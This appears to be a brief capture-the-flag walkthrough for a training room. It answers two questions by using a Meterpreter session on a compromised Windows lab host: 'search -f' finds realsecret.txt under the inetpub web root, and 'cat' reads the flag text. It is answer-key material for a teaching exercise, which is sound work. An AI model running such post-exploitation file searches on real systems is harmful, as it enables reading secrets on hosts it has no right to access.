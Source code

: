 Where is the "realsecret.txt" file located? (Full path of the file)
=> c:\inetpub\wwwroot\realsecret.txt
Hint:

You can use any of these commands: search -f *.txt search -f realsecret.txt

Step 1: search 
```
search -f realsecret.txt
```
```
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 09:30:24 +0100
```

---

What is the real secret?
=> The Flash is the fastest man alive

Hint: Use the cat command to see the content of the file

Step1: cat 
```
meterpreter > pwd
C:\Program Files (x86)\Windows Multimedia Platform
meterpreter > cd ..
meterpreter > cd ..
meterpreter > pwd
C:\
meterpreter > cd "inetpub\wwwroot"
meterpreter > pwd
C:\inetpub\wwwroot
meterpreter > cat realsecret.txt
The Flash is the fastest man alive
```